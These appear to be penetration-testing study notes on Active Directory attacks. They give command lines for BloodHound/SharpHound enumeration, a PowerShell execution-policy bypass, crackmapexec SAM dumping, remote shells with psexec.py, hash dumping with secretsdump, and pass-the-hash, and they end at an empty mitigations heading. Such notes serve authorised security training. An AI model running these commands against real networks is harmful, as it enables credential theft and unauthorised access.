 #### Domain enumeration with Bloodhound

* once we are on the network, it downloads the data of the AD and helps us to visualize it
* `apt install bloodhound` to install it on kali
* setting it up: `neo4j console`
* open it up (see link in terminal) and change default credentials from neo4j:neo4j
* in tty: `bloodhound` then log in in the opened up browser
* let's pull some data with an injester first, using the **[invoke sharphound from Github repo](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1)** 
* Invoke Sharphound goes on to the target Windows machine, so it can collect data
* run it, first powershell `powershell -ep bypass` than sharphound with `. .\SharpHound.ps1`
* `Invoke-BloodHound -CollectionMethod All -Domain domain.local -ZipFileName file.zip`
* copy the generated file back to kali, where we will import it and review the details
* on kali upload it into Bloodhound opened browser

## Post compromise attacks

* these attacks require to have compromised the system already and have some credentials

### Pass the password attack with crackmapexec

* passing the hash around with ***crackmapexec.py*** which will throw around the captured hash and see where it sticks
* install it on kali `apt install crackmapexec`
* usage `crackmapexec --help` to get help, typically we provide a username, domain and password for now
* `crackmapexec smb <target network IP/24> -u <username> -d <domain.local> -p <password>`
* `crackmapexec smb <target network IP/24> -u <username> -d <domain.local> -p <password> --sam` it will try to dump the SAM file (short for SAM=Security Account Manager)

### Getting a shell with psexec.py

* getting a shell: `psexec.py domain/username:password@<domain_target_IP>`
* password spraying is NOT recommended on Domains becaue if you get many failed login attempts you can lock this user out of the Domain, on local accounts it's OK

### Dumping hashes with secretsdump

* it is also part of the impacket github repo
* `secretsdump.py domain/username:password@<domain_target_IP>` dumps the hashes for us

### Pass the hash attack

* NTLM hashes can be passed around, NTLMv2 hashes **can not** be passed around
* copy second part of the hash then run it in crackmapexec `crackmapexec smb <IP-range> -u <username> -H <paste_hash_here> --local-auth`
* see it's gonna try to pass it around the network and gain access, green plus sign indicates if it succeeded
* `psexec.py "frank castle":@192.168.57.141 -hashes <HASH here, first and second part of hash needed>`

### Mitigations
